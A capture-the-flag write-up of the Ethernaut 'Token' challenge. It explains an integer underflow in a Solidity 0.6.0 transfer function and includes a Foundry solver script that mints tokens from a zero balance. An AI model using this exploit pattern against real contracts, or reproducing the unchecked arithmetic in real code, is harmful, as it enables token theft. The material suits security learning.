


in this challenge we are given a simple token contract, we start with 20 tokens and our goal is to find a bug that allows us to get a large amount of tokens

<!--more-->


- **Platform**: Ethernaut
- **Challenge**: Token
- **Category**: Blockchain


```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Token {
    mapping(address => uint256) balances;
    uint256 public totalSupply;

    constructor(uint256 _initialSupply) public {
        balances[msg.sender] = totalSupply = _initialSupply;
    }

    function transfer(address _to, uint256 _value) public returns (bool) {
        require(balances[msg.sender] - _value >= 0);
        balances[msg.sender] -= _value;
        balances[_to] += _value;
        return true;
    }

    function balanceOf(address _owner) public view returns (uint256 balance) {
        return balances[_owner];
    }
}
```

first lets check the 20 tokens we have using `cast`:



what this command does is simply send an `eth_call` which allows us to execute the view function locally in the node without spending any gas

now the description tells us to check `odometer` — the special thing about it is that it resets after reaching a certain max number, similar to overflows

in solidity versions before 0.8.0, overflow/underflow did happen and developers had to add custom checks or use libraries like safemath; in versions 0.8.x new opcodes have been added to arithmetic operations to prevent this

returning to the contract, the version is 0.6.0 which is vulnerable to underflow:

```solidity
function transfer(address _to, uint256 _value) public returns (bool) {
    require(balances[msg.sender] - _value >= 0);
    balances[msg.sender] -= _value;
    balances[_to] += _value;
    return true;
}
```

the only check is `require(balances[msg.sender] - _value >= 0)` and the underflow applies here: if a contract has balance 0 and calls this with `_value = 100`, `balances[msg.sender] - _value` will be equal to `type(uint256).max - 99` which is bigger than 0, so we bypass the require and get tokens without losing any

here is the solver script:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import "forge-std/Script.sol";
import "forge-std/console.sol";

contract attack {
  Token token;
  address player = 0x284Cd6B2b7D4dC8a754c8fC34858529db5039eBb;
  constructor(Token _token) public {
    token = _token;
    token.transfer(player, 6767676747);
    console.log(token.balanceOf(player));
  }
}

contract Solver is Script {
  Token instance = Token(0xD71EA4b9951B1861115Ce3c5fdEcE2440b77d21B);

  function run() external {
     vm.startBroadcast(vm.envUint("PRIVATE_KEY"));
     attack p = new attack(instance);
  }
}
```

executing it locally:



the exploit works fine, we just add the `--broadcast` flag to execute it remotely and gg the challenge is solved
